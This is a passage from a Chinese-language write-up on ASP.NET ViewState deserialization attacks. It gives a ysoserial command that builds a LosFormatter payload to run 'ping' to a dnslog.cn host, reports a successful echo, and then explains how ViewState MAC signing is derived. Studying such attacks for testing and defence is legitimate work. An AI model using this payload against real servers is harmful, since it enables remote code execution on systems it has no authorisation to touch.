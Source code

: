 ```html
<title>运行时错误</title>
```

假定我们现在已经关闭了MAC验证，直接上 payload：

```powershell
.\ysoserial.exe
-o base64
-g TextFormattingRunProperties # 换成TypeConfuseDelegate打不出dnslog回显
-f LosFormatter
-c "ping 123456.dnslog.cn"
```

![](/img/2024-08-12-viewstate-exp/1.png)

填入`__VIEWSTATE`字段，回显成功：

![](/img/2024-08-12-viewstate-exp/2.png)

### 2.2 ASP.NET <=4.0，开启MAC验证

ASP.NET 常见的签名算法为 HMACSha256（也可能是SHA1），计算出的签名会附加在 ViewState 数据最后。MacKeyModifier 是签名算法的 Salt，由 ClientId 和 ViewStateUserKey 两部分拼接而成，默认情况下，ViewStateUserKey 为空（也很少会设置），ClientId 为当前页面虚拟目录路径(apppath)和类型名称(path)的 HashCode 之和，并以 Hex 形式存放于名为`__VIEWSTATEGENERATOR`的表单字段中。
